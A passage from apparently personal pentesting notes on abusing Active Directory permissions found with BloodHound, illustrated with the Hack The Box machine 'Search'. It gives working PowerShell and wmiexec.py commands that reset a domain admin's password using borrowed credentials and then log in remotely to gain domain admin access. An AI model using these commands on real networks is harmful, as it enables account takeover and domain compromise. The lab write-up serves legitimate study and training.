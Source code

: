     $cred = new-object system.management.automation.pscredential $user,$secpass
    ```

Example:

<figure><img src="../../../.gitbook/assets/Capture (2).PNG" alt=""><figcaption><p>ReadGMSAPassword in BloodHound</p></figcaption></figure>

### GenericWrite/GenericAll/AllExtendedRights

*   Allows an attacker to modify the object in question. In this example, we change the password of a Domain Admin. GenericWrite allows the modification of certain things.

    * HTB Example: _**Search**_

    How-To:

    ```python
    Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred

    #kali:

    wmiexec.py 'search/tristan.davies:Password1234!@search.htb'
    ```

    * Why would you invoke a command on localhost? This is because I am using another user’s credentials.
    * Note: Invoke-Command executes a command on another host.
    * With this, we can obtain domain admin access.
